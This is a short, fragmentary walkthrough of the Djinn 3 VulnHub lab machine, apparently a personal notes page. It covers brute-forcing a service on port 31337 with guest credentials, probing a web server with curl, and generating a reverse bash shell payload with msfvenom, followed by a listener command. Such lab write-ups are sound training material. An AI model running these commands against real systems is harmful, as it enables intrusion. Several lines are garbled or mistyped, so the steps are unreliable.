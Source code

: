 ```yaml
---
{"tags":["walkthrought","vulnhub"],"dg-publish":true,"permalink":"/exploit-from-kali/djinn-3-walkthrough/","dgPassFrontmatter":true,"noteIcon":""}
---
```



	#apt install html2text
	#apt install pwn
	host id 192.168.0.105
	port 80 
	5000 python web server
	31337
	git clone  djinn3 walkthrought address
	
	nano brute forcing.py
	change host name to 192.168.0.105
	python3 Brute\ forcing.py
	
	#brute forcing open guest : guest
	nc 192.168.0.105 31337
	help
	open
	y3kh
	y3khexit
	curl -s http://192.168.0.105:5000/ | html2text
	curl -s http://192.168.0.105:5000/?id-3606
	sudo msfvenom -p cmd/unix/reverse_bash lhost=192.168.0.105 lport=4444 -f raw -o revshell.sh
	
	lv -lvnp 4444